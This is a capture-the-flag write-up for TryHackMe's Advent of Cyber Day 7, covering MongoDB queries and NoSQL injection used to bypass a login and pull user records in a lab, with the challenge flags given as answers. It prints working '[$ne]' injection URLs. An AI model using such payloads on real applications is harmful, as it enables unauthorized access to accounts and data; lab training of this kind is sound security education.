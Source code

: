 ```yaml
---
title:  "TryHackMe: Advent of Cyber - Day 7 - Migration Without Security"
date:   2021-12-14 11:00:00 +1000
excerpt: Learning about Local File Inclusion (LFI) Vulnerabilities. 
---
```


This is a write up for the Day 7 - Migration Without Security challenge in the [**Advent of Cyber**](https://tryhackme.com/room/adventofcyber3) room on [TryHackMe](https://tryhackme.com). Some tasks may have been omitted as they do not require an answer.

***

### Interact with the MongoDB server to find the flag. What is the flag?

Listing the databases shows a db called "flagdb".

```
show databases
AoC3    0.000GB
admin   0.000GB
config  0.000GB
flagdb  0.000GB
local   0.000GB
```

We can then open the db with `use flagdb`.

`show collections` will list all available collections.

```
show collections
flagColl
```

`db.flagColl.find()` will reveal the flag.

<img src="{{ site.baseurl }}/assets/images/2021-12-14-advent-of-cyber-day-7/d7_1.jpg">

> Answer: **THM{8814a5e6662a9763f7df23ee59d944f9}**

### We discussed how to bypass login pages as an admin. Can you log into the application that Grinch Enterprise controls as admin and retrieve the flag?

We can intercept the login form and inject the following.

<img src="{{ site.baseurl }}/assets/images/2021-12-14-advent-of-cyber-day-7/d7_2.jpg">

Forwarding this on will allow us to log in to the system. This will reveal the flag on the `/flag` page.

<img src="{{ site.baseurl }}/assets/images/2021-12-14-advent-of-cyber-day-7/d7_3.jpg">

> Answer: **THM{b6b304f5d5834a4d089b570840b467a8}**

### Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?

The search page is passing a GET parameter which exposes the `username` and `role` variables. We know the user we are looking for is not an admin so we can structure our query as follows.

```
http://10.10.52.100/search?username[$ne]=admin&role=guest
```

Scrolling down the page reveals the flag.

<img src="{{ site.baseurl }}/assets/images/2021-12-14-advent-of-cyber-day-7/d7_4.jpg">

> Answer: **THM{2ec099f2d602cc4968c5267970be1326}**

### Use the gift search page to perform NoSQL injection and retrieve the mcskidy record. What is the details record?

We can follow the same principle as the previous question. We know that the username is `mcskidy` and could have any role. We can check for role not equal to null to return all results.

```
http://10.10.52.100/search?username=mcskidy&role[$ne]=
```

<img src="{{ site.baseurl }}/assets/images/2021-12-14-advent-of-cyber-day-7/d7_5.jpg">

> Answer: **ID:6184f516ef6da50433f100f4:mcskidy:admin**

### Recap

In this task we learnt:
 * What is NoSQL?
 * Understanding NoSQL database
 * Understand Why NoSQL happens
 * Understand what NoSQL injection is
 * Using NoSQL Injection to bypass a login form
 